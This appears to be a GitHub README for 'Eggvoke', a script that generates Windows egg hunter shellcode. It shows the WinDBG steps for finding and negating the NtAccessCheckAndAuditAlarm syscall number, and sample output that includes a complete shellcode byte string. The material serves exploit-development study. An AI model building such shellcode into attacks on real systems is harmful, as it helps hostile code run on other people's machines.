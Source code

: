# Eggvoke
Eggvoke is a program that will take your egg and the system call value and create egg hunter shellcode. The egg hunter used is very popular and widely used.

The modules for eggvoke can be install with the command `pip install -r requirements.txt`

## How to use
To use Eggvoke it's pretty simple. You must first provide it two arguments on the command line. The first one is the value of the egg. This is what you have in your exploit and want to find. Next is the system call address you have. The script makes use of the `NtAccessCheckAndAuditAlarm` call and you will probably need to update the offset. I will show you a quick how-to when it comes to finding the new system call and converting it to something we can use. 

1. Go to WinDBG and run the command `u ntdll!NtAccessCheckAndAuditAlarm` this will and should provide you with the line `mov eax,1C6h` or similar where `1C6h` is our syscall.
2. To prevent any null bytes in the shell code we will do the following expression in WinDBG `? 0x00 - 0x1C6` which will give a negative number
3. Next to the number should be our hex value. We can put this hex value into our second argument

## Example Output
```
.------..------..------..------..------..------..------.
|E.--. ||G.--. ||G.--. ||V.--. ||O.--. ||K.--. ||E.--. |
| (\/) || :/\: || :/\: || :(): || :/\: || :/\: || (\/) |
| :\/: || :\/: || :\/: || ()() || :\/: || :\/: || :\/: |
| '--'E|| '--'G|| '--'G|| '--'V|| '--'O|| '--'K|| '--'E|
`------'`------'`------'`------'`------'`------'`------
--------------------------------------------------
 Developed by OracleOfMyst
--------------------------------------------------

[+] Egg       => oomm
[+] Hex       => 0x6d6d6f6f
[+] egghunter => ("\x66\x81\xca\xff\x0f\x42\x52\xb8\x3a\xfe\xff\xff\xf7\xd8\xcd\x2e\x3c\x05\x5a\x74\xeb\xb8\x6f\x6f\x6d\x6d\x89\xd7\xaf\x75\xe6\xaf\x75\xe3\xff\xe7")
```

